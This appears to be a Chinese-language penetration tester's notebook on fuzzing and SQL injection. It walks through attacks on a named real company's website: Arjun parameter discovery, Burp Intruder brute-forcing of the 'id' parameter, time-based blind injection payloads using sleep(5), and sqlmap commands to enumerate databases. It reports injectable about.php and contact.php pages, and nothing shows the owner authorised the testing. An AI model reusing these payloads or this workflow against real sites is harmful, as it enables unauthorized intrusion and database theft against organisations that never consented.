模糊测试(Fuzzing), 简而言之, 就是为了触发新的或不可预见的代码执行路径或bug而在程序中插入异常的, 非预期的, 甚至是随机的输入. 

**师傅笔记：**

判断注入

15' and if(15,sleep(5),3)--+

15" and if(15,sleep(5),3)--+

15 and if(15,sleep(5),3)--+ 

语句大家可自行结合

sqlmap语句为:

-p id --batch --random-agent --dbs

**个人笔记：**

php写的页面，考虑是否能注入

<!-- 这是一张图片，ocr 内容为：南昌哈里科技_南昌哈里科技有限 南昌哈里科技有限公司 中 Y Q HTTPS://HALIGAME.COM.ABOUT.PHP 考证 项目部署 编程算法 你给老子好学英... 比赛+考证 夏令营 网安学院 论文 读研 中北 软茗 科技 小迪网站 CVE-2024\ 网安 宝藏 WWW.HALIGAME.COM 加入我们 联系我们 公司简介 网产品信息 南昌哈里科技 南昌哈里科技 南吕哈里科技有限公司成立于2013年,至今一直专注于手机游戏研发业务,从早年 JAVA时代一直到如今智能机普及,我们一直坚持在研发第一线. 公司专注于研发领域,目前已有(PROJECT-X),(画说三国),物理弹球-经典版等 多款游戏在各个平台上线. 在未来,南昌哈里将会继续在研发领域不忘初心,躬耕前行. -->


fuzz工具：argun  

一款http参数扫描器，主要就是爆破url参数的

<!-- 这是一张图片，ocr 内容为：特点 多线程 检测彻底 自动速率限制处理 典型的扫描需要30秒 GET/POST/JSON方法支持 25,980个参数名称的大列表 -->


基础命令：python3 arjun.py -u [https://api.example.com/endpoint](https://api.example.com/endpoint) --get

<!-- 这是一张图片，ocr 内容为：C:\USERS\86135>ARJUN-H SE [-AL [-U URLL [-O JSON_FILE] [-OT TEXT_FILE] [-OB (BURP-PORT)] [-D DELAY] [-I THREADS] [-W WORDLIS USAGE:ARJUN.EXE [-T TIMEOUT] [-CHUNKS][-Q][----HEADERS [HEADERS]] LMMETHOD][I-I [IMPORT FILE]] INCLUDEINCLUDE E[PASSIVE]][-STABLE DE][-DISABLEREDIRECTS] PASSIVE OPTIONAL ARGUMENTS: SHOW THIS HELP MESSAGE AND EXIT -H,--HELP -URL TARGET URL TO JSON FILE,OJ JSON FILE PATH FOR JSON OUTPUT FILE. TEXT FILE PATH FOR TEXT OUTPUT FILE. -OT T PORT FOR OUTPUT TO BURP SUITE PROXY. DEFAULT PORT IS 8080. [BURP PORT] -OB [ DELAY BETWEEN REQUESTS IN SECONDS.(DEFAULT:0) D DELAY NUMBER OF CONCURRENT THREADS.(DEFAULT:5) -T THREADS -W WORDLIST WORDLIST FILE PATH.(DEFAULT:LAR JUNDIR)/DB/LARGE.TXT) REQUEST METHOD TO USE: GET/POST/XML/JSON/HEADERS. (DEFAULT: GET) M METHOD -I [IMPORT FILE] IMPORT TARGET URLS FROM FILE. T TIMEOUT HTTP REQUEST TIMEOUT IN SECONDS.(DEFAULT:15) -C CHUNKS CHUNK SIZE. THE NUMBER OF PARAMETERS TO BE SEN SENT AT ONCE QUIET MODE.NO OUTPUT. -G [HEADERS] --HEADERS ADD HEADERS. SEPARATE MULTIPLE HEADERS WITH A NEW LINE. COLLECT PARAMETER NAMES FROM PASSIVE SOURCES LIKE WAYBACK, COMMONCRAWL AND OTX. LPASSIVE PASSIVE PREFER STABILITY OVER SPEED. -STABLE -INCLUDE INCLUDE INCLUDE THIS DATA IN EVERY REQUEST. DISABLE REDIRECTS --DISABLE-REDIRECTS C:\USERS\86135>ARJUN -U "HTTPS://HALIGAME.COM/ABOUT.PHP" --PASSIVE ARJUN V22 COLLECTING PARAMETER NAMES FROM PASSIVE SOURCES FOR HALIGAME.COM, IT MAY TAKE A WHILE PROGRESS:84% -->


**arjun找到id参数（found id）**

Arjun_kali地址：cd /home/jimi/.local/bin  -->arjun

<!-- 这是一张图片，ocr 内容为：(JIMISJIMI)-[/.LOCAL/BIN] PYTHON ARJUN -U "HTTPS://HALIGAME.COM/ABOUT.PHP" --PASSIVE XONOX V2.2.6 [S] COLLECTING PARANETER NANES FRON PASSIVE SOURCES FOR HALIGANE.COM, IT MAY TAKE A WHILE HTML#SST-WARNINGS WARNINGS.WARN COLLECTED 0 PARAMETERS, ADDED TO THE WORDLIST R STABILITY [*] PROBING THE TARGET FOR FOR ANOMALIES ANALYSING HTTP RESPONSE RESPONSE FOR POTENTIAL PARAMETER NAMES HTTP ANALYSING 玖翔内 URL ENDPOINT LOGICFORCING THE :HTTP CODE ON: PARAMET PA1-AJAN PARAMETE TERS FOUND:ID -->


对id进行测试--》页面跳转到index.php  没啥用

<!-- 这是一张图片，ocr 内容为：十 地南昌哈里科技_南昌哈里科技有限X 南昌哈里科技有限公司 C HTTPS://HALIGAME.COM/ABOUT.PHP?ID 编程算 读研 中北 南昌哈里科技有限公司-HTTPS://HALIGAME.COM/ABOUT.PHP?ID-1 HTTPS://HALIGAME.COM/ABOUT.PHP?ID-必应搜索 收藏夹 筛选搜索: 标签页 历史记录 -->


用burp对id的参数进行爆破，看那些id会有页面

<!-- 这是一张图片，ocr 内容为：PAYLOAD POSITIONS CONFIGURE THE POSTIONS WHERE PAYIOADS VIL BE INSERTED, THEY CAN BE ADDED INTO TARGET AS THE BASE REQU ADDS UPDATE HOST HEADER TO MATCH TARGET TARGET: HTTPS://HALIGAME.COM CLEAR S GET /ABOUT.PHP 7ID-S1S HTTP/2 AUTO G HOST:HALIGAME.COM CACHE-CONTROL:MAX-AGE-0 SEC-CH-TA:"NOT)A;BRAND"IVENGS","HICROSOLT EDGE";VE";YS"127", "CHROMIUM""" REFRESH SEC-CH-UA-HOBILE:20 SEC-CH-UA-PLATFORM:"WINDOWS" DNT:1 8 UPGRADE-INSECURE-REQUESTS:1 EDG/127.0.0.0 ACCEPT: SEC-FETCH-SITE:SAME-ORIGIN SEC-FETCH-HODE:NAVIGATE SEC-FETCH-USER: ?1 SEC-FETCH-DEST:DOCWMENT REFERER:HTTPS://HALIGAME.COM/JOIN.PHP ACCEPT-ENCODING:GZIP,DEFLATE ACCEPT-LANQUAGE: ZH-CN,ZH;Q*0.9,EN;QWO.8,EN-GB;Q10.7,EN-US;Q20.6 PRIORITY:U O,I -->


<!-- 这是一张图片，ocr 内容为：3. INTRUDER ATTACK OF HTTPS//HALIGAME.COM - TEMPORARY ATTACK - NOT SAVED TO PROJECT FILE COLUMNS SAVE ATTACK SETTINGS PAYLOADS RESOURCE POOL POSITIONS RESULTS FILTER:SHOWING ALL ITEMS LENGTH PAYLOAD REQUEST TIMEOUT STATUS CODE ERROR COMMENT 20000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000 14 200 9897 14 15 15 26313 200 00000000000000000001 16 200 9632 16 9613 17 17 200 9773 18 18 200 19 19 9755 200 200 20 20 9773 200 21 9785 21 200 22 22 10055 10209 23 23 200 9747 302 0 1 302 9747 123456 302 9747 3 302 9747 302 9747 5 9747 302 302 9 9747 7 302 9747 8 8 9747 302 9 9 9747 302 LA REQUEST RESPONSE HEX PRETTY RAW GET/ABOUT.PHP?ID-17 HTTP/2 2 HOST: HALIGAME.COM CACHE-CONTROL:MAX-AGE-O SEC-CH-TA:"NOT)A:BRAND"YENG9","HICROSOFT EDGE"IVE"IVE"IVA"127","CHROMIUM"?VE"127" SEC-CH-UA-HOBILE:20 SEC-CH-UA-PLATFORM:"WINDOWS" 个 SEARCH... O MATCHES FINISHED -->


对上述id进行挨个测试

<!-- 这是一张图片，ocr 内容为：企业简介_南昌哈里科技有限公司 HTTPS://HALIGAME.COM/ABOUTPHP?ID14 网安学院 你给老子好好学英... 宝藏 考证 论文 比赛+考证 软著 网安 中北 科技 读研 CVE-2024\ 夏令营 编程算法 WWW.HALIGAME.COM 公司简介 R产品信息 南昌哈里科技 企业简介 -->


1.对id进行测试** id=14-1；id=13 ; id=15-2 **观察是否会跳转，如果跳转则大概率存在注入点

2.?id=14' and 618=618 and sleep(5）--+ 

3.?id=14' and '618'='618' and '%'='%--+

用sqlmap去跑：

<!-- 这是一张图片，ocr 内容为：SHELL NO.1 编辑查看帮助 文件 动作 SQLMAP--WIZARD {1.7.2#STABLE} 1.1V HTTPS://SQLMAP.ORG [!] LEGAL ; USASE OF SQLNAD FOR ATTACKING FARGETS WITHOUT PRIOR MUTUAL CONSENT IS ILLEGAL. IS THE END USESPANSI DISCLAIMER: ESPONSIBLE FOR ANY MISUSE O DAMAGE CAUSED BY THIS PROGRAM ORD [*] STARTING @ 12:55:47 /2024-08-11/ [12:55:47] [INFO] STARTING WIZARD INTERFACE PLEASE ENTER FULL TARGET URL (-U): HTTPS://HALIGAME.COM/ABOUT.PHP?ID:14 BATCH POST DATA (--DATA) [ENTER FOR NONEL: INJECTION DIFFICULTY (--LEVEL/--RISK). PLEASE CHOOSE: [1] NORMAL (DEFAULT) [2] MEDIUM [3] HARD > 1 TION (-BANNER/--CURRENT-USER/ETC). PLEASE CHOOSE: ENUMERATION( [1] BASIC(DEFAULT) INTERMEDIATE ALL SQLMAP IS RUNNING, LEASE WAIT... INVALID TARGET URL [CRITICAL] -->


payload：  延时5s

<!-- 这是一张图片，ocr 内容为：南昌哈里科技有限公司 HTTPS://HALIGAME.COM/ABOUT.PHP2ID-23%20AND%20IF(23,SLEEP(5)--+ 编程算法 网安 考证 你给老子好好学英... 宝藏 科技 比赛+考证 中北 -->


Contact.php页面也存在sql注入

<!-- 这是一张图片，ocr 内容为：联系我们.南昌哈里科技有限公司 十 X X S HTTPS://HALIGAME.COM/CONTACT.PHP?ID-14%20AND%20IF(14,SLEEP(5)- 读研 编程算法 中北 网安 你给老子好学英.... 论文 考证 宝藏 比赛+考证 科技 -->


**如果一个网站的一个id存在sql注入，则整个网站存在多处的sql注入**

